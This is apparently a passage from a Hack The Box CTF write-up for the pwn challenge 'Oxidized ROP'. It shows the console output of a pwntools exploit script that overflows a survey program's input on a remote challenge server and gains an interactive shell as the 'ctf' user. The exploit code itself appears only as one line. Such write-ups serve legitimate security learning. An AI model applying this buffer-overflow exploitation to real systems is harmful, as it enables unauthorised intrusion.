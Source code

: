 Executing the program: 

```
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Opening connection to 83.136.253.251 on port 59131
[x] Opening connection to 83.136.253.251 on port 59131: Trying 83.136.253.251
[+] Opening connection to 83.136.253.251 on port 59131: Done
--------------------------------------------------------------------------
  ______   _______ _____ _____ ____________ _____    _____   ____  _____  
 / __ \ \ / /_   _|  __ \_   _|___  /  ____|  __ \  |  __ \ / __ \|  __ \ 
| |  | \ V /  | | | |  | || |    / /| |__  | |  | | | |__) | |  | | |__) |
| |  | |> <   | | | |  | || |   / / |  __| | |  | | |  _  /| |  | |  ___/ 
| |__| / . \ _| |_| |__| || |_ / /__| |____| |__| | | | \ \| |__| | |     
 \____/_/ \_\_____|_____/_____/_____|______|_____/  |_|  \_\\____/|_|     
                                                                          
Rapid Oxidization Protection -------------------------------- by christoss


Welcome to the Rapid Oxidization Protection Survey Portal!                
(If you have been sent by someone to complete the survey, select option 1)

1. Complete Survey
2. Config Panel
3. Exit
Selection: 
/home/kali/Desktop/writeups/htb/Challenges/pwn/Oxidized ROP/exploits.py:19: BytesWarning: Text is not bytes; assuming UTF-8, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(overflow + exploit)


Hello, our workshop is experiencing rapid oxidization. As we value health and
safety at the workspace above all we hired a ROP (Rapid Oxidization Protection)  
service to ensure the structural safety of the workshop. They would like a quick 
statement about the state of the workshop by each member of the team. This is    
completely confidential. Each response will be associated with a random number   
in no way related to you.                                                      

Statement (max 200 characters): 

--------------------------------------------------------------------------
Thanks for your statement! We will try to resolve the issues ASAP!
Please now exit the program.
--------------------------------------------------------------------------


Welcome to the Rapid Oxidization Protection Survey Portal!                
(If you have been sent by someone to complete the survey, select option 1)

1. Complete Survey
2. Config Panel
3. Exit
Selection: 
[*] Switching to interactive mode

Config panel login has been disabled by the administrator.
id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
```

